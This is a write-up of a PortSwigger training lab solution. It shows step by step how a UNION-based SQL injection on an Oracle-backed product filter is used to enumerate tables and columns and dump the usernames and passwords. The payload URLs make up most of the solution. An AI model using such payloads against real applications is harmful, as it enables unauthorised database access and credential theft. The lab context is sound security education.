 ```yaml
---
title: 🕸️ PSA - SQLi 10 - Listing contents on Oracle DB
date: 2023-05-17
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the ``administrator`` user.

## ✅ Solution

Find the number of columns:

````text
<website>/filter?category=Gifts'UNION SELECT NULL FROM DUAL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL FROM DUAL--            # works 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL FROM DUAL--       # error!  
````

We know 2 columns are returned by the query. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL FROM DUAL--        # works
<website>/filter?category=Gifts'UNION SELECT 'abc','abc' FROM DUAL--       # works
````

We don't know the name of the table storing the credentials. We have to list all the tables:

````text
<website>/filter?category=Gifts'UNION SELECT table_name,NULL FROM all_tables--
````

75 table names are displayed. A quick sort make `USERS_OPLMGY` stands out. Time to find the column names inside.

> I didn't find it first try! I had to look on internet and I found that I have to query the table `USER_TAB_COLUMNS`.

````text
<website>/filter?category=Gifts'UNION SELECT column_name,NULL FROM USER_TAB_COLUMNS WHERE table_name='USERS_OPLMGY'--
````

We obtain `USERNAME_JIHLXR` and `PASSWORD_DNJXFC`.

````text
<website>/filter?category=Gifts'UNION SELECT USERNAME_JIHLXR,PASSWORD_DNJXFC FROM USERS_OPLMGY--
````

That's how I solved this challenge!
